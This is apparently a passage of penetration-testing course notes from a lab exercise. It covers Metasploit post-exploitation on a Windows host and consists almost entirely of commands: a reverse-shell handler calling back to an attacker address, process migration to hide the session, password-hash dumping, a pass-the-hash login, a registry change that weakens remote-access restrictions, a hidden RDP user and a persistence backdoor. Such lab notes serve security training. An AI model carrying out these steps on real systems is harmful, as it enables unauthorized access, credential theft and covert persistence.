 To remedy this we need to launch the Handler with an option: `background`, `use exploit/multi/handler`, `set PAYLOAD windows/x64/meterpreter/reverse_tcp`, `set LHOST 192.168.1.3`, `set LPORT 1234`, `set AutoRunScript migrate -n svchost.exe` `exploit -j`.
The option `AutoRunScript` is used to automatically run a script when the new session is established, and in this case we have to `migrate` (and hide) the session to a typical Windows process (Service Host) that is responsible for executing system services.

Let's start the service again to have a new (stable) Meterpreter session: `sessions`, `sessions -i 1`, `shell`, `sc start VGAuthService`, so we have a new Meterpreter session, `CTRL+Z`, `background`, `sessions -i 3`, `run post/windows/gather/win_privs`: is admin - is system - UAC enabled, `getuid`: `NT AUTHORITY\SYSTEM`.

### Maintaining Access - Video

Assume we already have a Meterpreter session (reverse shell) with a high privileges user: `getuid`: `NT AUTHORITY\SYSTEM`.

We want to make the current session stable.
`getpid`: to get the PID of the current session (if the victim terminates this process we will lose our session), `ps`: to see all the running processes on the exploited machine, `migrate 2148`: to migrate our session to a different process (in this case the Service Host) in order to hide our session.

Let's get the password hashes from the victim with the `hashdump` Metepreter module or with `run post/windows/gather/smart_hashdump` that automatically saves the dumped hashes (into `/root/.msf5/loot` folder).
`background`, `loot` `creds`: to get the just gathered credentials.

Let's try to exploit the machine via "pass-the-hash" technique in order to have persistence.
`use exploit/windows/smb/psexec`, `show options`, `set RHOST 192.168.1.2`, `set SMBUser els`, `set SMBPass E52CAC67419A9A224A3B108F3FA6CB6D:8846F7EAEE8FB117AD06BDD830B7586C`, `exploit`: it will generate the error `STATUS_ACCESS_DENIED` because we do not have access to administrative shares (a security restriction).
We need to set a registry entry: `reg setval -k HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -v LocalAccountTokenFilterPolicy -t REG_DWORD -d 1` in order to allow `psexec` to authenticate using credentials with local administrative privileges even when access to administrative shares is not available. `exploit`.

Now, we have a persistence access to the victim machine.
Note that if the user changes password, we will lose our access. In order to avoid this, we can create a new (hidden) user: `sessions -i 1`, `run getgui -e -u atk -p atk`: to create a new user, where `-e` enables RDP. Note that the script automatically creates a rule in the firewall.
We can check if RDP is correctly enabled by `xfreerdp /v:192.168.1.2 /u:atk /p:atk` that establishes a RDP (GUI) connection.

Let's create and install a (very simple) backdoor in the target machine with Metasploit: `background`, `search persistence`, `use exploit/windows/local/persistence`, `show options`, `set SESSION 1`, `set STARTUP SYSTEM` (since we have system privileges), `set PAYLOAD windows/meterpreter/reverse_tcp`, `set LHOST 192.168.1.3`, `set PORT 1234`, `exploit`: will install the backdoor to the target machine.

In this case we are using a random port, but during real penetration tests we will use 80 or 443.
The same for the IP address, we are using a private IP address because we are in the same LAN of the victim, but in real penetration test scenarios we will use a public IP address.
